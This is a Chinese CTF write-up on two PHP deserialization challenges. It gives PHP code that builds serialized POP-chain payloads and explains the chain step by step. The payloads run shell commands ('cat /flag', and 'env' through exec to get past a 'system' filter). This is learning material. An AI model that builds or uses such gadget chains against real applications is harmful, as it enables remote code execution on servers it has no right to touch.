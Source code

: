 # 第十九章

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id) //将对象当作函数调用时调用
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
    
    public function __construct($name,$id,$age)
    {
        $this->name=$name;
        $this->age=$age;
        $this->id=$id;
    }
}

class PersonA extends Person
{
    public function __destruct() //类似析构函数
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value) //设置不可访问或不存在的属性时调用
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(strpos($this->age . $this->name,"flag")!== false) //本地环境没有str_contains
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup() //反序列化时调用
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}
$personC=new PersonC("system","system","a");
$personA=new PersonA($personC,'__Check','cat /flag');
$person=new PersonC('b',$personA,'c');
echo serialize($person);
```
事实上我不知道它为什么能行……以下只是我做题时的思路

唯一一个有`__wakeup`函数的类是`PersonC`，因此入口点肯定在这。先给`Person`基类加个构造函数方便传字段值。`__wakeup`的末尾调用了`$name`，或者说`$this->id`，因此`$this->id`得是个类

我最初的思路是用PersonA，让`__invoke`覆盖掉某个变量（一个类）从而触发被覆盖的变量的`__destruct`函数（因为不存在那个变量的引用了）。`__destruct`里`$name`是PersonC，`$id`是`__Check`,`$age`是参数。最后让那个`PersonC`类的`$name`为system

听起来非常的绕，实际上也确实非常的绕。绕到我自己此时并未明白上述思路该怎么构造。我只能构造一半，因反序列化链走到`__Check`之前php会报错，比如什么"a不可调用"；warning也一大堆，”给不是对象的变量赋值属性“……

不过因为我传参数时用字母来占位，所以我可以知道“a”来自于哪个类，随即将其换成函数。就怎么哼哧哼哧地改，突然它自己莫名其妙就完成了，伴随着一堆warning

远程测试时相同的payload会触发Fatal error（似乎新版本不允许给不是对象的变量赋值属性了。在旧版本这里只会有warning），但触发error之前已经执行命令并输出了结果

# revenge

似乎我最初的思路以及和预期解法很相似了，只是需要简化一些东西。把`__invoke`从基类拿出去后终于没那么乱了（
```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
    public function __construct($name,$id,$age)
    {
        $this->name=$name;
        $this->age=$age;
        $this->id=$id;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $name->$id($this->age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonC extends Person
{
    public function check($age)
    {
        $name=$this->name;
        if($age == null)
        {
            die("Age can't be empty.");
        }
        else if($name === "system")
        {
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}
$personA=new PersonA('g','check','i');
$personB=new PersonB('env',$personA,'f');
$person=new PersonC('exec',$personB,'c');
echo serialize($person);
```
触发点还是PersonC的`__wakeup`。这次只有`PersonB`有`__invoke`函数，因此`$this->id`必然是`PersonB`。然后需要澄清之前的一个误区。我之前以为必须要让某个引用是一个类，然后将那个引用覆盖掉才能触发那个类的析构函数。事实上，可以直接让`$this->id`为`PersonA`，`__invoke`执行完毕后就可以触发析构函数了

`__invoke`修改`PersonA`的name为`PersonC`，age为`PersonB`的name。让`PersonA`的id为check，随后`__destruct`执行的就是`PersonC->check($age)`了。system的过滤可以用别的函数绕过，比如exec